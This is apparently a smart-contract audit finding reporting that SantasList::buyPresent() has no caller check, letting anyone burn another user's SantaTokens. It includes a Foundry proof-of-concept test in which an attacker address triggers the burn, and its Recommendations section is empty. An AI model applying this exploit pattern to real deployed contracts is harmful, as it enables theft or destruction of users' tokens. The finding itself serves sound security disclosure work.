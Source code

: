 ## Summary

The `SantasList::buyPresent()` should be called only by the people with SantaTokens, so anyone `EXTRA_NICE` but in reality there is no check in the function.

## Vulnerability Details

The function `SantasList::buyPresent()` is used by the `EXTRA_NICE` people to buy a present for the `NAUGHTY` one burning the SantaTokens collected from the `SantasList::collectPresent()` and receiving a second NFT in exchange, but there is no control on the characteristics of the `msg.sender` and anyone can call it.

Add the following code in `SantasListTest.t.sol`:

```solidity
function testAnyoneCanBuyPresentFromOthers() public {
        address attacker = makeAddr("attacker");

        vm.startPrank(santa);
        santasList.checkList(user, SantasList.Status.EXTRA_NICE);
        santasList.checkTwice(user, SantasList.Status.EXTRA_NICE);
        vm.stopPrank();

        vm.warp(santasList.CHRISTMAS_2023_BLOCK_TIME() + 1);

        vm.startPrank(user);
        santasList.collectPresent();
        assertEq(santasList.balanceOf(user), 1);
        assertEq(santaToken.balanceOf(user), 1e18);
        vm.stopPrank();

        vm.startPrank(attacker);
        santasList.buyPresent(user);
        assertEq(santasList.balanceOf(user), 1);
        assertEq(santaToken.balanceOf(user), 0);
        vm.stopPrank();
    }
```

## Impact

Anyone can see the SantaTokens balance of others and watch for token holders calling after that the `SantasList::buyPresent()`, burning their tokens without limitations and receiving in exchange an NFT as a present.

## Tools Used

Manual review.

## Recommendations
